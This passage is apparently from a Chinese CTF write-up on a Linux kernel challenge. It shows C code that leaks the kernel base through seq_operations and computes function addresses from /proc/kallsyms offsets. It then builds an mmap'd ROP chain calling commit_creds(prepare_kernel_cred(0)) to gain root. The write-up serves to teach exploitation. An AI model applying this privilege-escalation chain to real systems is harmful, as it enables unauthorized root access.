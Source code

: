 根据前置知识，我们可以利用 `open("/proc/self/stat",0);`，将 `seq_operations` 结构体分配到我们可操控的这个堆上。之后利用 `read`，我们便可读出 `seq_operations` 结构体的所有内容，并计算出内核基址。同样的，拥有了内核基址，我们也就可以拿到其它我们所需要的函数的地址。

```c
  seq_fd=seq_open(); // seq_operations <--> 0

  uint64_t *recv=malloc(0x20);
  read(dev_fd,(char *)recv,0x20); // leak kernel address

  uint64_t kernel_base=recv[0]-0x33F980;
  uint64_t prepare_kernel_cred=kernel_base+0xcebf0;
  uint64_t commit_creds=kernel_base+0xce710;
  uint64_t kpti_trampoline=kernel_base+0xc00fb0;
  uint64_t seq_read=kernel_base+0x340560;
  uint64_t pop_rdi=kernel_base+0x2517a;
  uint64_t mov_rdi_rax=kernel_base+0x5982f4;
  uint64_t gadget=kernel_base+0x94a10;
```

:::tip 如何确定它们的地址用来计算偏移？

可以在 root 下，通过 `grep <symbol_name> /proc/kallsyms` 拿到

例如:

```bash
grep prepare_kernel_cred  /proc/kallsyms
grep commit_creds  /proc/kallsyms
grep kheap_write  /proc/kallsyms
```

:::

此时，我们可以开始着手布置 ROP 链。



利用 `xchg eax, esp` 这个位于内核的 gadget，将栈转移到用户态低 32 位地址相同的地方。这个时候，我们只需要提前在这个位置布置上我们的 gadgets，就能达到提权的效果。

如何提前布置呢？我们只需要在对应的内存页上使用 `mmap` 开一个 RWX 的内存空间即可。接下来的东西就和用户态的 pwn 题差不多，但是因为第一次分析内核题目，还是稍微写了点注释。

```c
  uint64_t *mmap_addr=mmap((void *)(gadget&0xFFFFF000),PAGE_SIZE,PROT_READ|PROT_WRITE|PROT_EXEC,MAP_ANONYMOUS|MAP_SHARED,-1,0);
  printf("[+] mmap_addr: 0x%lx\n",(uint64_t)mmap_addr);
  
  uint64_t *ROP=(uint64_t *)(((char *)mmap_addr)+0xa10),i=0;  // ROP Address <--> low 32bit of gadget in kernel
  *(ROP+i++)=pop_rdi;
  *(ROP+i++)=0;
  *(ROP+i++)=prepare_kernel_cred;　　// After this, we don't need to use gadget `mov rdi, rax`, it already set.
  *(ROP+i++)=commit_creds;
  *(ROP+i++)=kpti_trampoline+22;  // Prepare for SWAPGS
  *(ROP+i++)=0;
  *(ROP+i++)=0;
  *(ROP+i++)=(uint64_t)get_shell;  // rip
  *(ROP+i++)=user_cs;  // cs
  *(ROP+i++)=user_eflag;  // eflag
  *(ROP+i++)=user_rsp;  // rsp
  *(ROP+i++)=user_ss;  // ss
```
